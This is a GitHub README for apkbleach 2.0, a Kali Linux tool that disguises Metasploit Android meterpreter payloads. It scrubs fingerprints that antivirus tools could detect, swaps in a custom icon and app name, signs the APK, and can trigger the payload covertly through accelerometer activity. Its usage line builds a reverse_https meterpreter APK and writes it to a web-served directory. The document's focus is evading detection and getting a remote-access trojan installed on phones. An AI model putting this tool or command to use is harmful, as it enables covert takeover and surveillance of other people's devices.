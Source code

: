 # apkbleach 2.0
![Screen shot of sofware image](https://github.com/graylagx2/Images/blob/master/apkbleach2.png)

**About:**

This software was developed specifically for Kali-Linux to remove the obvious fingerprints of metasploit through out a android PAYLOAD along with assisting the user in making PAYLOAD.apk more installable across a wider range of devices.

**Features:**

1) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

2) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

3) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

4) Renames the application to the name you put chose as the ouput file

5) Scrubs the entire application of any mentions of the name "metasploit" or "stage". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

6) Adds padnops to PAYLOAD

7) Signs apk with jarsigner. msfenom produces unsigned apps

8) Zip aligns apk

9) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:**

    apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk

     apkbleach --list-payloads
 
     apkbleach --list-icons
 
     apkbleach --clear-cache
 

**optional arguments:**

      -h, --help            show this help message and exit
  
      -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
                        
      -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
                        
      -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
                        
      -o [output/path/for/apk]
                        Path to output apk
                        
      --edit-permissions    Enables permission editing in apk's manifest
  
      --list-payloads       List available icons
  
      --list-icons          List available icons
  
      --clear-cache         Allows prompt whether to keep package maintainers version apktool
  
#Install instructions:


After cloning or downloading the repository cd into the apkbleach directory and run run install.sh

    cd apkbleach
    bash install.sh
    
or

    cd apkbleach
    chmod +x install.sh
    ./install.sh
